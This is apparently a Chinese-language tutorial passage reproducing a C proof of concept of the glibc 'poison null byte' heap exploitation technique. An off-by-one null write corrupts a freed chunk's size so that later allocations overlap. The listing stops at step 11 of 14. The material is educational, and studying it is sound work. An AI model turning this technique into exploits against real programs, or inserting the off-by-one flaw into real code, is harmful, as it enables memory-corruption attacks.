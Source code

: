 ## poison_null_byte

移除了部分注释，将代码拆解成了14部分

```c
int main()
{
    uint8_t* a;
    uint8_t* b;
    uint8_t* c;
    uint8_t* b1;
    uint8_t* b2;
    uint8_t* d;
    void *barrier;

    // 1
    a = (uint8_t*) malloc(0x100);
    int real_a_size = malloc_usable_size(a);

    // 2
    b = (uint8_t*) malloc(0x200);

    fprintf(stderr, "b: %p\n", b);

    // 3
    c = (uint8_t*) malloc(0x100);
    fprintf(stderr, "c: %p\n", c);

    // 4
    barrier =  malloc(0x100);
    fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
    "The barrier is not strictly necessary, but makes things less confusing\n", barrier);

    // 5
    uint64_t* b_size_ptr = (uint64_t*)(b - 8);

    // 6
    *(size_t*)(b+0x1f0) = 0x200;

    // 7
    free(b);

    // 8
    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    // 9
    uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
    fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

    // 10
    fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
    *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
    b1 = malloc(0x100);

    // 11
    b2 = malloc(0x80);
    fprintf(stderr, "b2: %p\n",b2);

    memset(b2,'B',0x80);
    fprintf(stderr, "Current b2 content:\n%s\n",b2);

```